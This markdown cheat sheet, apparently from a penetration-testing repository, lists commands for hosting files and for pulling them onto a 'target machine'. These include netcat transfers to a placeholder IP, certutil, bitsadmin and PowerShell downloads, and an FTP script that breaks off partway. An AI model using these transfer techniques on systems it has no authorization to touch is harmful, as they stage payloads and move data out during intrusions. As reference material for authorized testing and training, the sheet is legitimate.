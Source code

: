 ## Shell File Transfer Cheat Sheet
### [https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/ ](https://steflan-security.com/shell-file-transfer-cheat-sheet/)
#### Hosting files
| Command  | Description |
| ------------- | ------------- |
| python -m SimpleHTTPServer [PORT] | Python HTTP Server modules |
| python3 -m http.server [PORT]	| Python HTTP Server modules |
| service apache2 start; systemctl start apache2;	| Apache web server, requires to place files in the /var/www/html/ directory |
| service nginx start; systemctl start nginx	| Nginx web server, requires to place files in or /usr/share/nginx/html or /var/www/html |
| php -S 0.0.0.0:PORT	| PHP builtin web server bundle |
| nc -q 0 -lvp 443 < file	| Netcat listener to transfer files |
| nc -nv IP_ADDR 443 < file	| Netcat command to send files |
| smbserver.py SHARE share_dir	| Impacket’s smbserver.py script simulates a SMB server |
| service smbd start; systemctl start smbd	| Linux Samba, a share has to be added to /etc/samba/smb.conf |
| service pure-ftpd start; systemctl start pure-ftpd; service proftpd start; systemctl start proftpd	| Services such as pure-ftpd and proftpd can be used to setup FTP servers |
| atftpd –daemon –port 69 ftp_dir	| The atftpd utility allows to easily setup a TFTP server |
| ruby -rwebrick -e’WEBrick::HTTPServer.new(:Port => PORT, :DocumentRoot => Dir.pwd).start’	| Ruby web server using the Web brick library |
| ruby -run -e httpd . -p [PORT]	| Ruby simple http server |
| “C:\Program Files (x86)\IIS Express\iisexpress.exe” /path:C: /port:PORT	| Microsoftg IIS Express |
| base64 file;	| Encoding the the file using base 64 and decoding it in the target machine |

#### Downloading files
| Command  | Description |
| ------------- | ------------- |
| wget http://ip-addr:port/file [-o output_file]	| Wget comes preinstalled with most Linux systems |
| curl http://ip-addr:port/file -o output_file	| Curl comes preinstalled with most Linux and some Windows systems |
| certutil -urlcache -split -f “http://ip-addr:port/file” output_file	| Certutil is a Windows builtin command line tool |
| powershell -c Invoke-WebRequest -Uri http://ip-addr:port/file -OutFile output_file; | Powershell Invoke-WebRequest cmdlet or the System.Net.WebClient class |
| powershell -c (New-Object Net.WebClient).DownloadFile(‘http://ip-addr:port/file’, ‘output_file’)	| Powershell Invoke-WebRequest cmdlet or the System.Net.WebClient class |
| bitsadmin /transfer job /download /priority high http://IP_ADDR/file output_file	| Bitsadmin Windows command-line tool |
| nc -nv IP_ADDR 443 > file	| Netcat command to download files from a Netcat listener |
| nc -q 0-lvp 443 > file	| Netcat listener to receive files |
| copy \IP_ADDR\SHARE\output_file	| Copy command to download files from an SMB share |
| smbget smb://domain;user[:password@]server/share/path/file	| smbget utility to download files from a Samba share |
| wget ftp://user:password@IP_ADDR/path/file -o output_file | wget stuff via FTP |
| - FTP | FTP |
| echo open 192.168.1.64 21> ftp.txt | FTP |
| echo anonymous>> ftp.txt | FTP |
| echo ftp@ftp.com>> ftp.txt | FTP |